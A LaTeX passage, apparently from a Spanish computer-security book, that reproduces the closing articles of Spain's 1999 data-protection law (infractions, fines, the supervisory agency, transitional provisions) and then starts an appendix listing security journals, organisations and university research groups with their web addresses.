estad\'{\i}sticos y al secreto estad\'{\i}stico, as\'{\i} como dictar las 
instrucciones precisas, dictaminar sobre las condiciones de seguridad de los 
ficheros constituidos con fines exclusivamente estad\'{\i}sticos y ejercer la 
potestad a la que se refiere el art\'{\i}culo 46.
\item [(n)] Cuantas otras le sean atribuidas por normas legales o 
reglamentarias.
\end{itemize}
\vspace{0.3cm}
{\large {\bf Art\'{\i}culo 38.} Consejo Consultivo.}

El Director de la Agencia de Protecci\'on de Datos estar\'a asesorado por un 
Consejo Consultivo compuesto por los siguientes miembros:
\begin{itemize}
\item Un Diputado, propuesto por el Congreso de los Diputados.
\item Un Senador, propuesto por el Senado.
\item Un representante de la Administraci\'on Central, designado por el 
Gobierno.
\item Un representante de la Administraci\'on Local, propuesto por la 
Federaci\'on Espa\~nola de Municipios y Provincias.
\item Un miembro de la Real Academia de la Historia, propuesto por la misma.
\item Un experto en la materia, propuesto por el Consejo Superior de 
Universidades.
\item Un representante de los usuarios y consumidores, seleccionado del modo 
que se prevea reglamentariamente.
\item Un representante de cada Comunidad Aut\'onoma que haya creado una agencia 
de protecci\'on de datos en su \'ambito territorial, propuesto de acuerdo con 
el procedimiento que establezca la respectiva Comunidad Aut\'onoma.
\item Un representante del sector de ficheros privados, para cuya propuesta se 
seguir\'a el procedimiento que se regule reglamentariamente.
\end{itemize}
El funcionamiento del Consejo Consultivo se regir\'a por las normas 
reglamentarias que al efecto se establezcan.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 39.} El Registro General de Protecci\'on de Datos.}

{\bf 1.} El Registro General de Protecci\'on de Datos es un \'organo integrado 
en la Agencia de Protecci\'on de Datos.\\

{\bf 2.} Ser\'an objeto de inscripci\'on en el Registro General de Protecci\'on 
de Datos:
\begin{itemize}
\item [(a)] Los ficheros de que sean titulares las Administraciones P\'ublicas.
\item [(b)] Los ficheros de titularidad privada.
\item [(c)] Las autorizaciones a que se refiere la presente Ley.
\item [(d)] Los c\'odigos tipo a que se refiere el art\'{\i}culo 32 de la 
presente Ley.
\item [(e)] Los datos relativos a los ficheros que sean necesarios para el 
ejercicio de los derechos de informaci\'on, acceso, rectificaci\'on, 
cancelaci\'on y oposici\'on.
\end{itemize}

{\bf 3.} Por v\'{\i}a reglamentaria se regular\'a el procedimiento de 
inscripci\'on de los ficheros, tanto de titularidad p\'ublica como de 
titularidad privada, en el Registro General de Protecci\'on de Datos, el 
contenido de la inscripci\'on, su modificaci\'on, cancelaci\'on, reclamaciones 
y recursos contra las resoluciones correspondientes y dem\'as extremos 
pertinentes.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 40.} Potestad de inspecci\'on.}

{\bf 1.} Las autoridades de control podr\'an inspeccionar los ficheros a que 
hace referencia la presente Ley, recabando cuantas informaciones precisen para 
el cumplimiento de sus cometidos.\\
A tal efecto, podr\'an solicitar la exhibici\'on o el env\'{\i}o de documentos 
y datos y examinarlos en el lugar en que se encuentren depositados, as\'{\i} 
como inspeccionar los equipos f\'{\i}sicos y l\'ogicos utilizados para el 
tratamiento de los datos, accediendo a los locales donde se hallen instalados.\\

{\bf 2.} Los funcionarios que ejerzan la inspecci\'on a que se refiere el 
apartado anterior tendr\'an la consideraci\'on de autoridad p\'ublica en el 
desempe\~no de sus cometidos.\\
Estar\'an obligados a guardar secreto sobre las informaciones que conozcan en 
el ejercicio de las mencionadas funciones, incluso despu\'es de haber cesado en 
las mismas.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 41.} \'Organos correspondientes de las Comunidades 
Aut\'onomas.}

{\bf 1.} Las funciones de la Agencia de Protecci\'on de Datos reguladas en el 
art\'{\i}culo 37, a excepci\'on de las mencionadas en los apartados (j), (k) y 
(l), y en los apartados (f) y (g) en lo que se refiere a las transferencias 
internacionales de datos, as\'{\i} como en los art\'{\i}culos 46 y 49, en 
relaci\'on con sus espec\'{\i}ficas competencias ser\'an ejercidas, cuando 
afecten a ficheros de datos de car\'acter personal creados o gestionados por 
las Comunidades Aut\'onomas y por la Administraci\'on local de su \'ambito 
territorial, por los \'organos correspondientes de cada Comunidad, que 
tendr\'an la consideraci\'on de autoridades de control, a los que 
garantizar\'an plena independencia y objetividad en el ejercicio de su 
cometido.\\

{\bf 2.} Las Comunidades Aut\'onomas podr\'an crear y mantener sus propios 
registros de ficheros para el ejercicio de las competencias que se les reconoce 
sobre los mismos.\\

{\bf 3.} El Director de la Agencia de Protecci\'on de Datos podr\'a convocar 
regularmente a los \'organos correspondientes de las Comunidades Aut\'onomas a 
efectos de cooperaci\'on institucional y coordinaci\'on de criterios o 
procedimientos de actuaci\'on. El Director de la Agencia de Protecci\'on de 
Datos y los \'organos correspondientes de las Comunidades Aut\'onomas podr\'an 
solicitarse mutuamente la informaci\'on necesaria para el cumplimiento de sus 
funciones.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 42.} Ficheros de las Comunidades Aut\'onomas en 
materia de su exclusiva competencia.}

{\bf 1.} Cuando el Director de la Agencia de Protecci\'on de Datos constate que 
el mantenimiento o uso de un determinado fichero de las Comunidades Aut\'onomas 
contraviene alg\'un precepto de esta Ley en materia de su exclusiva competencia 
podr\'a requerir a la Administraci\'on correspondiente que se adopten las 
medidas correctoras que determine en el plazo que expresamente se fije en el 
requerimiento.\\

{\bf 2.} Si la Administraci\'on P\'ublica correspondiente no cumpliera el 
requerimiento formulado, el Director de la Agencia de Protecci\'on de Datos 
podr\'a impugnar la resoluci\'on adoptada por aquella Administraci\'on.
\begin{center}
{\LARGE T\'ITULO VII}\\ {\large Infracciones y sanciones} \end{center}
\vspace{0.3cm} {\large {\bf Art\'{\i}culo 43.} Responsables.}

{\bf 1.} Los responsables de los ficheros y los encargados de los
tratamientos estar\'an sujetos al r\'egimen sancionador establecido en
la presente Ley.\\

{\bf 2.} Cuando se trate de ficheros de los que sean responsables las
Administraciones P\'ublicas se estar\'a, en cuanto al procedimiento
y a las sanciones, a lo dispuesto en el art\'{\i}culo 46, apartado 2.
\vspace{0.3cm}\\ {\large {\bf Art\'{\i}culo 44.} Tipos de infracciones.}

{\bf 1.} Las infracciones se calificar\'an como leves, graves o muy
graves.\\

{\bf 2.} Son infracciones leves: \begin{itemize} \item[(a)] No atender,
por motivos formales, la solicitud del interesado de rectificaci\'on
o cancelaci\'on de los datos personales objeto de tratamiento cuando
legalmente proceda.  \item [(b)] No proporcionar la informaci\'on que
solicite la Agencia de Protecci\'on de Datos en el ejercicio de las
competencias que tiene legalmente atribuidas, en relaci\'on con aspectos
no sustantivos de la protecci\'on de datos.  \item [(c)] No solicitar
la inscripci\'on del fichero de datos de car\'acter personal en el
Registro General de Protecci\'on de Datos, cuando no sea constitutivo
de infracci\'on grave.  \item [(d)] Proceder a la recogida de datos
de car\'acter personal de los propios afectados sin proporcionarles
la informaci\'on que se\~nala el art\'{\i}culo 5 de la presente Ley.
\item [(e)] Incumplir el deber de secreto establecido en el art\'{\i}culo
10 de esta Ley, salvo que constituya infracci\'on grave.  \end{itemize}

{\bf 3.} Son infracciones graves: \begin{itemize} \item [(a)] Proceder a
la creaci\'on de ficheros de titularidad p\'ublica o iniciar la recogida
de datos de car\'acter personal para los mismos, sin autorizaci\'on
de disposici\'on general, publicada en el `Bolet\'{\i}n Oficial del
Estado' o diario oficial correspondiente.  \item [(b)] Proceder a la
creaci\'on de ficheros de titularidad privada o iniciar la recogida de
datos de car\'acter personal para los mismos con finalidades distintas
de las que constituyen el objeto leg\'{\i}timo de la empresa o entidad.
\item [(c)] Proceder a la recogida de datos de car\'acter personal sin
recabar el consentimiento expreso de las personas afectadas, en los casos
en que \'este sea exigible.  \item [(d)] Tratar los datos de car\'acter
personal o usarlos posteriormente con conculcaci\'on de los principios y
garant\'{\i}as establecidos en la presente Ley o con incumplimiento de los
preceptos de protecci\'on que impongan las disposiciones reglamentarias
de desarrollo, cuando no constituya infracci\'on muy grave.  \item [(e)]
El impedimento o la obstaculizaci\'on del ejercicio de los derechos de
acceso y oposici\'on y la negativa a facilitar la informaci\'on que sea
solicitada.  \item [(f)] Mantener datos de car\'acter personal inexactos
o no efectuar las rectificaciones o cancelaciones de los mismos que
legalmente procedan cuando resulten afectados los derechos de las personas
que la presente Ley ampara.  \item [(g)] La vulneraci\'on del deber de
guardar secreto sobre los datos de car\'acter personal incorporados a
ficheros que contengan datos relativos a la comisi\'on de infracciones
administrativas o penales, Hacienda P\'ublica, servicios financieros,
prestaci\'on de servicios de solvencia patrimonial y cr\'edito,
as\'{\i} como aquellos otros ficheros que contengan un conjunto de
datos de car\'acter personal suficientes para obtener una evaluaci\'on
de la personalidad del individuo.  \item [(h)] Mantener los ficheros,
locales, programas o equipos que contengan datos de car\'acter personal
sin las debidas condiciones de seguridad que por v\'{\i}a reglamentaria
se determinen.  \item [(i)] No remitir a la Agencia de Protecci\'on de
Datos las notificaciones previstas en esta Ley o en sus disposiciones
de desarrollo, as\'{\i} como no proporcionar en plazo a la misma cuantos
documentos e informaciones deba recibir o sean requeridos por aqu\'el a
tales efectos.  \item [(j)] La obstrucci\'on al ejercicio de la funci\'on
inspectora.  \item [(k)] No inscribir el fichero de datos de car\'acter
personal en el Registro General de Protecci\'on de Datos, cuando haya
sido requerido para ello por el Director de la Agencia de Protecci\'on de
Datos.  \item [(l)] Incumplir el deber de informaci\'on que se establece
en los art\'{\i}culos 5, 28 y 29 de esta Ley, cuando los datos hayan
sido recabados de persona distinta del afectado.  \end{itemize}

{\bf 4.} Son infracciones muy graves: \begin{itemize} \item [(a)]
La recogida de datos en forma enga\~nosa y fraudulenta.  \item [(b)]
La comunicaci\'on o cesi\'on de los datos de car\'acter personal, fuera
de los casos en que est\'en permitidas.  \item [(c)] Recabar y tratar
los datos de car\'acter personal a los que se refiere el apartado 2 del
art\'{\i}culo 7 cuando no medie el consentimiento expreso del afectado;
recabar y tratar los datos referidos en el apartado 3 del art\'{\i}culo
7 cuando no lo disponga una Ley o el afectado no haya consentido
expresamente, o violentar la prohibici\'on contenida en el apartado 4 del
art\'{\i}culo 7.  \item [(d)] No cesar en el uso ileg\'{\i}timo de los
tratamientos de datos de car\'acter personal cuando sea requerido para
ello por el Director de la Agencia de Protecci\'on de Datos o por las
personas titulares del derecho de acceso.  \item [(e)] La transferencia
temporal o definitiva de datos de car\'acter personal que hayan sido
objeto de tratamiento o hayan sido recogidos para someterlos a dicho
tratamiento, con destino a pa\'{\i}ses que no proporcionen un nivel de
protecci\'on equiparable sin autorizaci\'on del Director de la Agencia
de Protecci\'on de Datos.  \item [(f)] Tratar los datos de car\'acter
personal de forma ileg\'{\i}tima o con menosprecio de los principios
y garant\'{\i}as que les sean de aplicaci\'on, cuando con ello se
impida o se atente contra el ejercicio de los derechos fundamentales.
\item [(g)] La vulneraci\'on del deber de guardar secreto sobre los
datos de car\'acter personal a que hacen referencia los apartados 2
y 3 del art\'{\i}culo 7, as\'{\i} como los que hayan sido recabados
para fines policiales sin consentimiento de las personas afectadas.
\item [(h)] No atender, u obstaculizar de forma sistem\'atica el
ejercicio de los derechos de acceso, rectificaci\'on, cancelaci\'on
u oposici\'on.  \item [(i)] No atender de forma sistem\'atica el deber
legal de notificaci\'on de la inclusi\'on de datos de car\'acter personal
en un fichero.  \end{itemize} \vspace{0.3cm} {\large {\bf Art\'{\i}culo
45.} Tipo de sanciones.}

{\bf 1.} Las infracciones leves ser\'an sancionadas con multa de 100.000
a 10.000.000 de pesetas.\\

{\bf 2.} Las infracciones graves ser\'an sancionadas con multa de
10.000.000 a 50.000.000 de pesetas.\\

{\bf 3.} Las infracciones muy graves ser\'an sancionadas con multa de
50.000.000 a 100.000.000 de pesetas.\\

{\bf 4.} La cuant\'{\i}a de las sanciones se graduar\'a atendiendo
a la naturaleza de los derechos personales afectados, al volumen de
los tratamientos efectuados, a los beneficios obtenidos, al grado de
intencionalidad, a la reincidencia, a los da\~nos y perjuicios causados
a las personas interesadas y a terceras personas, y a cualquier
otra circunstancia que sea relevante para determinar el grado de
antijuridicidad y de culpabilidad presentes en la concreta actuaci\'on
infractora.\\

{\bf 5.} Si, en raz\'on de las circunstancias concurrentes, se apreciara
una cualificada disminuci\'on de la culpabilidad del imputado o de la
antijuridicidad del hecho, el \'organo sancionador establecer\'a la
cuant\'{\i}a de la sanci\'on aplicando la escala relativa a la clase de
infracciones que preceda inmediatamente en gravedad a aquella en que se
integra la considerada en el caso de que se trate.\\

{\bf 6.} En ning\'un caso podr\'a imponerse una sanci\'on m\'as grave que
la fijada en la Ley para la clase de infracci\'on en la que se integre
la que se pretenda sancionar.\\

{\bf 7.} El Gobierno actualizar\'a peri\'odicamente la cuant\'{\i}a
de las sanciones de acuerdo con las variaciones que experimenten los
\'{\i}ndices de precios.  \vspace{0.3cm}\\ {\large {\bf Art\'{\i}culo 46.}
Infracciones de las Administraciones P\'ublicas.}

{\bf 1.} Cuando las infracciones a que se refiere el art\'{\i}culo
44 fuesen cometidas en ficheros de los que sean responsables las
Administraciones P\'ublicas, el Director de la Agencia de Protecci\'on de
Datos dictar\'a una resoluci\'on estableciendo las medidas que procede
adoptar para que cesen o se corrijan los efectos de la infracci\'on.\\
Esta resoluci\'on se notificar\'a al responsable del fichero, al \'organo
del que dependa jer\'arquicamente y a los afectados si los hubiera.\\

{\bf 2.} El Director de la Agencia podr\'a proponer tambi\'en la
iniciaci\'on de actuaciones disciplinarias, si procedieran. El
procedimiento y las sanciones a aplicar ser\'an las establecidas en
la legislaci\'on sobre r\'egimen disciplinario de las Administraciones
P\'ublicas.\\

{\bf 3.} Se deber\'an comunicar a la Agencia las resoluciones que
recaigan en relaci\'on con las medidas y actuaciones a que se refieren
los apartados anteriores.\\

{\bf 4.} El Director de la Agencia comunicar\'a al Defensor del Pueblo
las actuaciones que efect\'ue y las resoluciones que dicte al amparo
de los apartados anteriores.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 47.} Prescripci\'on.}

{\bf 1.} Las infracciones muy graves prescribir\'an a los tres a\~nos,
las graves a los dos a\~nos y las leves al a\~no.\\

{\bf 2.} El plazo de prescripci\'on comenzar\'a a contarse desde el
d\'{\i}a en que la infracci\'on se hubiera cometido.\\

{\bf 3.} Interrumpir\'a la prescripci\'on la iniciaci\'on,
con conocimiento del interesado, del procedimiento sancionador,
reanud\'andose el plazo de prescripci\'on si el expediente sancionador
estuviere paralizado durante m\'as de seis meses por causas no imputables
al presunto infractor.\\

{\bf 4.} Las sanciones impuestas por faltas muy graves prescribir\'an
a los tres a\~nos, las impuestas por faltas graves a los dos a\~nos y
las impuestas por faltas leves al a\~no.\\

{\bf 5.} El plazo de prescripci\'on de las sanciones comenzar\'a a
contarse desde el d\'{\i}a siguiente a aquel en que adquiera firmeza la
resoluci\'on por la que se impone la sanci\'on.\\

{\bf 6.} La prescripci\'on se interrumpir\'a por la iniciaci\'on,
con conocimiento del interesado, del procedimiento de ejecuci\'on,
volviendo a transcurrir el plazo si el mismo est\'a paralizado durante
m\'as de seis meses por causa no imputable al infractor.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 48.} Procedimiento sancionador.}

{\bf 1.} Por v\'{\i}a reglamentaria se establecer\'a el procedimiento
a seguir para la determinaci\'on de las infracciones y la imposici\'on
de las sanciones a que hace referencia el presente T\'{\i}tulo.

{\bf 2.} Las resoluciones de la Agencia de Protecci\'on de Datos u
\'organo correspondiente de la Comunidad Aut\'onoma agotan la v\'{\i}a
administrativa.
\vspace{0.3cm}\\
{\large {\bf Art\'{\i}culo 49.} Potestad de inmovilizaci\'on de ficheros.}

En los supuestos, constitutivos de infracci\'on muy grave, de
utilizaci\'on o cesi\'on il\'{\i}cita de los datos de car\'acter
personal en que se impida gravemente o se atente de igual modo contra el
ejercicio de los derechos de los ciudadanos y el libre desarrollo de la
personalidad que la Constituci\'on y las leyes garantizan, el Director
de la Agencia de Protecci\'on de Datos podr\'a, adem\'as de ejercer la
potestad sancionadora, requerir a los responsables de ficheros de datos
de car\'acter personal, tanto de titularidad p\'ublica como privada, la
cesaci\'on en la utilizaci\'on o cesi\'on il\'{\i}cita de los datos.\\
Si el requerimiento fuera desatendido, la Agencia de Protecci\'on de
Datos podr\'a, mediante resoluci\'on motivada, inmovilizar tales ficheros
a los solos
efectos de restaurar los derechos de las personas afectadas.
\begin{center}
{\LARGE DISPOSICIONES ADICIONALES}
\end{center}
\vspace{0.3cm} {\large {\bf Primera.} Ficheros preexistentes.}

Los ficheros y tratamientos automatizados, inscritos o no en el Registro 
General de Protecci\'on de Datos deber\'an adecuarse a la presente Ley 
Org\'anica dentro del plazo de tres a\~nos, a contar desde su entrada en vigor. 
En dicho plazo, los ficheros de titularidad privada deber\'an ser comunicados a 
la Agencia de Protecci\'on de Datos y las Administraciones P\'ublicas, 
responsables de ficheros de titularidad p\'ublica, deber\'an aprobar la 
pertinente disposici\'on de regulaci\'on del fichero o adaptar la existente.\\

En el supuesto de ficheros y tratamientos no automatizados, su adecuaci\'on a 
la presente Ley Org\'anica y la obligaci\'on prevista en el p\'arrafo anterior 
deber\'a cumplimentarse en el plazo de doce a\~nos a contar desde el 24 de 
octubre de 1995, sin perjuicio del ejercicio de los derechos de acceso, 
rectificaci\'on y cancelaci\'on por parte de los afectados.
\vspace{0.3cm}\\
{\large {\bf Segunda.} Ficheros y Registro de Poblaci\'on de las 
Administraciones P\'ublicas.}

{\bf 1.} La Administraci\'on General del Estado y las Administraciones de las 
Comunidades Aut\'onomas podr\'an solicitar al Instituto Nacional de 
Estad\'{\i}stica, sin consentimiento del interesado, una copia actualizada del 
fichero formado con los datos del nombre, apellidos, domicilio, sexo y fecha de 
nacimiento que constan en los padrones municipales de habitantes y en el censo 
electoral correspondientes a los territorios donde ejerzan sus competencias, 
para la creaci\'on de ficheros o registros de poblaci\'on.\\

{\bf 2.} Los ficheros o registros de poblaci\'on tendr\'an como finalidad la 
comunicaci\'on de los distintos \'organos de cada administraci\'on p\'ublica 
con los interesados residentes en los respectivos territorios, respecto a las 
relaciones jur\'{\i}dico administrativas derivadas de las competencias 
respectivas de las Administraciones P\'ublicas.
\vspace{0.3cm}\\
{\large {\bf Tercera.} Tratamiento de los expedientes de las derogadas Leyes de 
Vagos y Maleantes y de Peligrosidad y Rehabilitaci\'on Social.}

Los expedientes espec\'{\i}ficamente instruidos al amparo de las derogadas 
Leyes de Vagos y Maleantes, y de Peligrosidad y Rehabilitaci\'on Social, que 
contengan datos de cualquier \'{\i}ndole susceptibles de afectar a la seguridad,
al honor, a la intimidad o a la imagen de las personas, no podr\'an ser 
consultados sin que medie consentimiento expreso de los afectados, o hayan 
transcurrido 50 a\~nos desde la fecha de aqu\'ellos.\\
En este \'ultimo supuesto, la Administraci\'on General del Estado, salvo que 
haya constancia expresa del fallecimiento de los afectados, pondr\'a a 
disposici\'on del solicitante la documentaci\'on, suprimiendo de la misma los 
datos aludidos en el p\'arrafo anterior, mediante la utilizaci\'on de los 
procedimientos t\'ecnicos pertinentes en cada caso.
\vspace{0.3cm}\\
{\large {\bf Cuarta.} Modificaci\'on del art\'{\i}culo 112.4 de la Ley General 
Tributaria.}

El apartado cuarto del art\'{\i}culo 112 de la Ley General Tributaria pasa a 
tener la siguiente redacci\'on:\\
{\it `4. La cesi\'on de aquellos datos de car\'acter personal, objeto de 
tratamiento que se debe efectuar a la Administraci\'on tributaria conforme a lo 
dispuesto en el art\'{\i}culo 111, en los apartados anteriores de este 
art\'{\i}culo o en otra norma de rango legal, no requerir\'a el consentimiento 
del afectado. En este \'ambito tampoco ser\'a de aplicaci\'on lo que respecto a 
las Administraciones P\'ublicas establece el apartado 1 del art\'{\i}culo 21 de 
la Ley Org\'anica de Protecci\'on de Datos de car\'acter personal'.}
\vspace{0.3cm}\\
{\large {\bf Quinta.} Competencias del Defensor del Pueblo y \'organos 
auton\'omicos semejantes.}

Lo dispuesto en la presente Ley Org\'anica se entiende sin perjuicio de las 
competencias del Defensor del Pueblo y de los \'organos an\'alogos de las 
Comunidades Aut\'onomas.
\vspace{0.3cm}\\
{\large {\bf Sexto.} Modificaci\'on del art\'{\i}culo 24.3 de la Ley de 
Ordenaci\'on y Supervisi\'on de los Seguros Privados.}

Se modifica el art\'{\i}culo 24.3, p\'arrafo 2$^{o}$ de la Ley 30/1995, de 8 de 
noviembre, de Ordenaci\'on y Supervisi\'on de los Seguros Privados con la 
siguiente redacci\'on:\\
{\it `Las entidades aseguradoras podr\'an establecer ficheros comunes que 
contengan datos de car\'acter personal para la liquidaci\'on de siniestros y la 
colaboraci\'on estad\'{\i}stico actuarial con la finalidad de permitir la 
tarificaci\'on y selecci\'on de riesgos y la elaboraci\'on de estudios de 
t\'ecnica aseguradora. La cesi\'on de datos a los citados ficheros no 
requerir\'a el consentimiento previo del afectado, pero s\'{\i} la 
comunicaci\'on al mismo de la posible cesi\'on de sus datos personales a 
ficheros comunes para los fines se\~nalados con expresa indicaci\'on del 
responsable para que se puedan ejercitar los derechos de acceso, 
rectificaci\'on y cancelaci\'on previstos en la Ley.\\
Tambi\'en podr\'an establecerse ficheros comunes cuya finalidad sea prevenir el 
fraude en el seguro sin que sea necesario el consentimiento del afectado. No 
obstante, ser\'a necesaria en estos casos la comunicaci\'on al afectado, en la 
primera introducci\'on de sus datos, de qui\'en sea el responsable del fichero 
y de las formas de ejercicio de los derechos de acceso, rectificaci\'on y 
cancelaci\'on.\\
En todo caso, los datos relativos a la salud s\'olo podr\'an ser objeto de 
tratamiento con el consentimiento expreso del afectado.'}
\begin{center}
{\LARGE DISPOSICIONES TRANSITORIAS}
\end{center}
\vspace{0.3cm}
{\large {\bf Primera.} Tratamientos creados por Convenios Internacionales.}

La Agencia de Protecci\'on de Datos ser\'a el organismo competente para la 
protecci\'on de las personas f\'{\i}sicas en lo que respecta al tratamiento de 
datos de car\'acter personal respecto de los tratamientos establecidos en 
cualquier Convenio Internacional del que sea parte Espa\~na que atribuya a una 
autoridad nacional de control esta competencia, mientras no se cree una 
autoridad diferente para este cometido en desarrollo del Convenio.
\vspace{0.3cm}\\
{\large {\bf Segunda.} Utilizaci\'on del Censo Promocional.}

Reglamentariamente se desarrollar\'an los procedimientos de formaci\'on del 
Censo Promocional, de oposici\'on a aparecer en el mismo, de puesta a 
disposici\'on de sus solicitantes, y de control de las listas difundidas. El 
Reglamento establecer\'a los plazos para la puesta en operaci\'on del Censo 
Promocional.
\vspace{0.3cm}\\
{\large {\bf Tercera.} Subsistencia de normas preexistentes.}

Hasta tanto se lleven a efecto las previsiones de la Disposici\'on Final 
Primera de esta Ley, continuar\'an en vigor, con su propio rango, las normas 
reglamentarias existentes y, en especial, los Reales Decretos 428/1993, de 26 
de marzo, 1332/1994, de 20 de junio y 994/1999, de 11 de junio, en cuanto no se 
opongan a la presente Ley.
\begin{center}
{\LARGE DISPOSICI\'ON DEROGATORIA}
\end{center}
\vspace{0.3cm} 
{\large {\bf \'Unica.}}

Queda derogada la Ley Org\'anica 5/1992, de 29 de octubre, de regulaci\'on del 
tratamiento automatizado de los datos de car\'acter personal.
\begin{center}
{\LARGE DISPOSICIONES FINALES}
\end{center}
\vspace{0.3cm}
{\large {\bf Primera.} Habilitaci\'on para el desarrollo reglamentario.}

El Gobierno aprobar\'a, o modificar\'a, las disposiciones reglamentarias 
necesarias para la aplicaci\'on y desarrollo de la presente Ley.
\vspace{0.3cm}\\
{\large {\bf Segunda.} Preceptos con car\'acter de Ley Ordinaria.}

Los t\'{\i}tulos IV, VI excepto el \'ultimo inciso del p\'arrafo 4 del 
art\'{\i}culo 36 y VII de la presente Ley, la Disposici\'on Adicional Cuarta, 
la Disposici\'on Transitoria Primera y la Final Primera, tienen el car\'acter 
de Ley Ordinaria.
\vspace{0.3cm}\\
{\large {\bf Tercera.} Entrada en vigor.}

La presente Ley entrar\'a en vigor en el plazo de un mes, contado desde su 
publicaci\'on en el Bolet\'{\i}n Oficial del Estado.

\cleardoublepage
\chapter{Recursos de inter\'es en INet}
\section{Publicaciones peri\'odicas}
\begin{itemize}
\item Journal of Computer Security: {\tt http://www.jcompsec.mews.org/}
\item Disaster Recovery Journal: {\tt http://www.drj.com/}
\item Computer \& Security: {\tt http://www.elsevier.nl/locate/inca/405877l}
\item Operating Systems Security Issues: {\tt http://www.jjtc.com/Security/os.htm}
\item International Journal of Forensic Computing: {\tt http://www.forensic-computing.com/}
\item Journal of Internet Security: {\tt http://www.csci.ca/jisec/}
\item Computer and Communications Security Reviews:\\
{\tt http://www.anbar.co.uk/computing/ccsr/archive.html}
\item Info Security News: {\tt http://www.infosecnews.com/}
\item Computer Forensics Online: {\tt http://www.shk-dplc.com/cfo/}
\item Information Security Magazine: {\tt http://www.infosecuritymag.com/}
\item Security Advisor Magazine: {\tt http://www.advisor.com/wHome.nsf/wPages/SAmain/}
\item Security Management Magazine: {\tt http://www.securitymanagement.com/}
\item Phrack Underground Magazine: {\tt http://www.phrack.com/}
\item Security Magazine: {\tt http://www.secmag.com/}
\item 2600 Magazine: {\tt http://www.2600.com/}
\item Linux Journal: {\tt http://www.ssc.com/lj/index.html}
\item UnixWorld Online Magazine: {\tt http://www.wcmh.com/uworld/}
\item Infowar: {\tt http://www.infowar.com/}
\item Linux Gazette: {\tt ftp://ftp.rediris.es/software/linux/lg/}
\item Internet Security Review Magazine: {\tt http://www.isr.net/}
\item UNIX Review: {\tt http://www.unixreview.com/}
\item Sun Expert: {\tt http://www.netline.com/sunex/}
\item Sun World: {\tt http://www.sunworld.com/}
\item Linux World: {\tt http://www.linuxworld.com/}
\item Sys Admin: {\tt http://www.samag.com/}
\item SCO World Magazine: {\tt http://www.scoworld.com/}
\item RS/Magazine: {\tt http://www.netline.com/rs/}
\item Unix Guru Universe: {\tt http://www.polaris.net/ugu/}
\item Security Alert For Enterprise Resources {\tt http://siamrelay.com/safer/}
\item ACM Trans. on Information and System Security: {\tt http://www.acm.org/pubs/tissec/}
\item Cryptologia:\\
{\tt http://www.dean.usma.edu/math/resource/pubs/cryptolo/index.htm}
\item Journal of Cryptology: {\tt http://www.iacr.org/jofc/jofc.html}
\item Journal of Computer Security: {\tt http://www.jcompsec.mews.org/}
\item The Privacy Forum: {\tt http://www.vortex.com/privacy.html}
\item IEEE-CS TC on Security and Privacy:\\
{\tt http://www.itd.nrl.navy.mil/ITD/5540/ieee/cipher/}
\item Computer Underground Digest: {\tt http://sun.soci.niu.edu/\~{}cudigest/}
\item NetWatchers: {\tt http://www.ionet.net/\~{}mdyer/netwatch.shtml}
\item Journal for Internet Banking and Commerce: {\tt http://www.arraydev.com/commerce/JIBC/}
\item Data Security Letter: {\tt http://ww.tis.com/Home/DataSecurityLetter.html}
\item Journal of Infrastructural Warfare: {\tt http://www.iwar.org/}
\end{itemize}
\section{Organizaciones}
\subsection{Profesionales}
\begin{itemize}
\item USENIX: {\tt http://www.usenix.org/}
\item CERT: {\tt http://www.cert.org/}
\item NCSA: {\tt http://www.ncsa.org/}
\item AECSI: {\tt http://aecsi.rediris.es/}
\item SANS Institute: {\tt http://www.sans.org/}
\item ICSA: {\tt http://www.icsa.net/}
\item ISC2 Organization: {\tt http://www.isc2.org/}
\item The Computer Security Institute: {\tt http://www.gocsi.com/}
\item IEEE Computer Society: {\tt http://www.computer.org/}
\item IEEE-CS TC on Security and Privacy: {\tt http://www.itd.nrl.navy.mil/ITD/5540/ieee/}
\item ACM SIGSAC: {\tt http://www.acm.org/sig$\_$hp/SIGSAC.html}
\item High--Tech Crime Investigators Association: {\tt http://htcia.org/}
\item FIRST: {\tt http://www.first.org/first/}
\item IACR: {\tt http://www.iacr.org/}
\item ACSA: {\tt http://www.acsac.org/}
\item Association for Biometrics: {\tt http://www.afb.org.uk/}
\item Smart Card Forum: {\tt http://www.smartcardforum.org/}
\end{itemize}
\subsection{Gubernamentales/militares}
\begin{itemize}
\item Computer Security Information: {\tt http://www.alw.nih.gov/Security/security.html}
\item The NSA/CSS INFOSEC Page: {\tt http://www.nsa.gov:8080/isso/}
\item NIST Computer Security Resource Clearinghouse: {\tt http://csrc.nist.gov/}
\item NIST Computer Systems Laboratory: {\tt http://www.ncsl.nist.gov/}
\item Computer Security Technology Center: {\tt http://ciac.llnl.gov/cstc/}
\item (CCIPS) - Computer Crime and Intellectual Property Section:\\
{\tt http://www.usdoj.gov/criminal/cybercrime/}
\item DoD Network Information Center: {\tt http://nic.ddn.mil/}
\item DoD Security Institute: {\tt http://www.dtic.mil/dodsi/}
\item FBI Computer Crime Squad: {\tt http://www.fbi.gov/compcrim.htm}
\item Defense Information Systems Agency: {\tt http://www.disa.mil/}
\item CIAC Security Website: {\tt http://ciac.llnl.gov/}
\item National Security Agency: {\tt http://www.nsa.gov/}
\item Air Force CERT: {\tt http://afcert.kelly.af.mil/}
\item President\'{}s Commission on Critical Infrastructure Protection: 
{\tt http://www.pccip.gov/}
\item Australian Defense Signals Directorate (DSD): {\tt http://www.dsd.gov.au/}
\item UK General Communications Headquarters (GCHQ): {\tt http://www.gchq.gov.uk/}
\item UK Communications Electronic Security Group (CESG): {\tt http://www.cesg.gov.uk/}
\item NZ Government Communications Security Bureau: {\tt http://www.gcsb.govt.nz/}
\end{itemize}
\subsection{Universidades/educaci\'on}
\begin{itemize}
\item Information Security Research Centre, Queensland University of Technology (AU):\\
{\tt http://www.isrc.qut.edu.au/}
\item Centre for Computer Security Research, University of Wollogong (AU):\\
{\tt http://www.cs.uow.edu.au/ccsr/}
\item Cryptography and Computer Security Group, Brussels Free University (BE):\\
{\tt http://www.ulb.ac.be/di/scsi/defscsi.html}
\item Cryptology Group, Universit\'e Catholique de Louvain (BE):\\
{\tt http://www.dice.ucl.ac.be/crypto/crypto.html}
\item Computer Security and Industrial Cryptography Group, Katholieke Universiteit Leuven (BE):\\
